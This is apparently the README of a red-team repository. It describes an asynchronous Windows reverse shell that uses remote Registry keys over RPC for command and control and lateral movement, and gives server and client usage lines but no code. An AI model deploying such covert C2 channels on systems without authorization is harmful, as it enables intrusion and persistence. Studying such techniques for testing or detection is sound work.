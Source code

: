 # Everything Is A(n asynchronous) Reverse Shell

This repository is made to explore some uncommon ways for establishing command and control (c2) on Microsoft Windows systems. 

The reverse shells in this repository are asynchronous just like Cobalt Strikes shells. Asyncronous, meaning that the client and server will not communicate all the time like a standard TCP reverse shell. Instead, the client will check-in for any new commands from the server. If a command is found, it will execute it and post the output back to the server. The checkin-interval is also just like Cobalt Strikes sleep timer. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows administrators to read, write & delete registry keys on remote systems using the RPC protocol. Using  custom code, it is possible to create a client-server relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, should only be suitable for lateral movement on local networks. 

**Usage:**
Server-side:
``` 
RegC2Server.exe <Unique Registry key name to use>
example: RegC2Server.exe dc01
```
Client-side:
```
RegC2Client.exe <host> <Registry name to use>
example: RegC2Client.exe dc01 ws01
```

**How it works:**
When starting the server, the Remote Registry Service is enabled, and the following registry keys are created: cmd, output & sleep. 

### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 
